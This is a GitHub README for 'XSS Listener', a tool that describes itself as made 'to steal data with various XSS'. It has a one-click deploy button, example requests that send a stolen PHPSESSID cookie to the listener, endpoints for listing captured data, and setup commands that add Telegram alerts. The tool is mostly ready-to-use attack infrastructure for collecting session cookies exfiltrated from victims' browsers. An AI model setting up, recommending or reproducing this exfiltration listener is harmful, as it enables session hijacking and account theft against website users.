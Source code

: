 ![logo](https://cagatay.js.org/spider.png)

### 🕷️ XSS Listener is a penetration tool for easy to steal data with various XSS.

From now on, you do not need XSS listeners! XSS listener records the data you have stolen on the remote site in the database, and gives instant notification with telegram.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/cagataycali/xss-listener)

### 🕸️ Know-How Background

* [What is XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

* [Steal cookie with XSS without redirecting to another page](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)
* [TR | How to use XSS](https://canyoupwn.me/tr-how-to-use-xss/)


### 🕸️ Listener Usage

Listener accepts all HTTP methods with parameters, then save database.
Example:
```
GET https://yourapp.com/?cookie=PHPSESSID=889c6594db2541db1666cefca7537373

or

POST https://yourapp.com/
Form: { cookie:'PHPSESSID=889c6594db2541db1666cefca7537373' }
```
You will notify by telegram bot.
![output](https://cagatay.js.org/output.png)
---

### 🕸️ Detailed Usage

<details>

#### 🕸️ List previous requests
```
https://yourapp.com/list
```

#### 🕸️ Delete previous request by id
```
https://yourapp.com/delete/[id]
```

#### 🕸️ Even you can use telegram

```
/list
```

```
/delete [id]
```

</details>


#### 🕸️ Run local environment

In terminal,

```shell
git clone https://github.com/cagataycali/xss-listener.git; # Clone
cd xss-listener; # Change directory.
npm install; # Install dependencies.
# Fill bot token and user id.
TELEGRAM_TOKEN=[BOT TOKEN] TELEGRAM_USER_ID=[USER ID] node index.js
```

#### License

MIT © [Çağatay Çalı](https://cagatay.me)
